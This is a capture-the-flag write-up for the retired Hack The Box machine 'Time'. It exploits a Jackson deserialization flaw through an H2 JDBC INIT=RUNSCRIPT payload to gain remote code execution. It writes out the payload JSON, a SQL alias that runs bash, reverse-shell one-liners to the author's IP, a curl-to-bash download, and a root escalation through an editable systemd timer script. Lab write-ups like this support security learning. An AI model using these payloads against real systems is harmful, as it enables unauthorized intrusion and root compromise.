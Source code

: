 # Time

This is the write-up for the box Time that got retired at the 3rd April 2021.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.214    time.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/time.nmap 10.10.10.214
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Online JSON parser
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page hosts an _online JSON beautifier & validator_ and the _validate_ function is marked as "beta".

![JSON beautifier & validator](time_web-1.png)

It parses JSON data, but the _validate_ function displays that _"Validation failed"_.

When sending anything other than JSON data to the validator, it displays a **Jave error message**:
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'anything': was expecting ('true', 'false' or 'null')
```

It uses the [Jackson](https://github.com/FasterXML/jackson) library to parse JSON for Java.
By searching for vulnerabilities in **Java Jackson**, an [article from Doyensec](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) explains a Remote Code Execution vulnerability.

Sending the payload from the article to check the **JDBC Driver**:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:"}]

Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.JsonMappingException: Infinite recursion (StackOverflowError) (through reference chain: org.h2.schema.Schema["database"]->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]
->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]->org.h2.engine.Database["mainSchema"]->org.h2.schema.Schema["database"]
(...)
```

Using the JDBC Driver to check if it connects to our client:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10:8000/inject.sql'"}]
```
```
nc -lvnp 8000

Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.10.214.
Ncat: Connection from 10.10.10.214:50170.
GET /inject.sql HTTP/1.1
User-Agent: Java/11.0.8
Host: 10.10.14.10:8000
```

The connection is successful, so a malicious script has to be hosted on our local client and Java will execute it.
Creating a script that executes a reverse shell:
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.10/9001 0>&1')
```

Sending the payload again:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10:8000/inject.sql'"}]
```

After sending the payload, it will download _inject.sql_ and execute the command to start a reverse shell connection on the listener on my IP and port 9001 as the user _pericles_.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.10/linpeas.sh | bash
```

The user _pericles_ owns the file _/usr/bin/timer_backup.sh_ that compresses the directory of the web page and puts it in the home folder of root:
```
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

This bash script is used in a **Systemd Timer** and is automatically executed:
```
grep -r timer_backup.sh / 2>/dev/null
/etc/systemd/system/web_backup.service
```

The script can be edited to execute a reverse shell:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1'
```

After saving the file, the **Systemd timer** will run it and the listener on my IP and port 9002 starts a reverse shell as root!
